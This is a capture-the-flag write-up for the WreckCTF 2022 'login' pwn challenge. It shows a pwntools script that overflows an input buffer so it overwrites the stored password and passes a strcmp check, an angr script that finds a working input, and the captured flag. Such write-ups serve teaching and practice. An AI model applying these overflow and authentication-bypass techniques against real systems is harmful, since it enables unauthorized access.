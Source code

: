 # WRECKCTF 2022 - login

* **Category:** pwn
* **Points:** 414
* **Author:** josephg

## Challenge

> you'll never get my password!

## Solution
![image](https://user-images.githubusercontent.com/78451563/193476675-22bcf3d9-262d-4802-b0a1-5c0a1c37011f.png)

There's an overflow on line 18 which we could leverage to bypass the check.
```python
from pwn import *
elf = context.binary = ELF('./challenge')
p = remote("challs.wreckctf.com",31009)
log.info(p.clean())
payload = flat(
	# input_password
	b"A"*1, # Our new set password 
	b"\x00"*1, # strcmp() null byte terminal
	b"B"*14, # padding
	# password overwrite
	b"A"*1,
	b"\x00"*1,
	b"B"*14
)
p.sendline(payload)
p.interactive()
```
![image](https://user-images.githubusercontent.com/78451563/193477300-31035084-120d-4948-adb3-897b981a11db.png)

The binary uses strcmp() against our input and the password so if the first character of two strings is equal, the next character of two strings are compared. This continues until the corresponding characters of two strings are different or a null character '\x00' is reached.
```python
#!/usr/bin/env python3
import angr
import claripy
import time
import logging
t=time.time()
logging.getLogger('angr').setLevel(logging.INFO)
p = angr.Project('./challenge', auto_load_libs=False)
state = p.factory.entry_state(add_options=angr.options.unicorn)
sm = p.factory.simulation_manager(state)
sm.explore(find=0x40147a,avoid=0x401481) # find=print_flag(),avoid=puts("Sorry, incorrect password\n")
print('Input: \n{}'.format(sm.found[0].posix.dumps(0)))
print('Std output: \n{}'.format(sm.found[0].posix.dumps(1)))
print(time.time() - t, "seconds")
```
We can also use ANGR to brainlessly solve this PWN challenge.
```
b'\x00\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00'
```
After running we get this as our input for the found state. Now to put it into a script and send to remote.
```python
from pwn import *
elf = context.binary = ELF('./challenge')
p = remote("challs.wreckctf.com",31009)
log.info(p.clean())
print_flag = b'\x00\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00'
p.sendline(print_flag)
p.interactive()
```
![image](https://user-images.githubusercontent.com/78451563/193476208-4a63a834-aab1-4cff-a161-647e609569cc.png)

```
Flag: flag{i_wish_could_gets_more_runes}
```
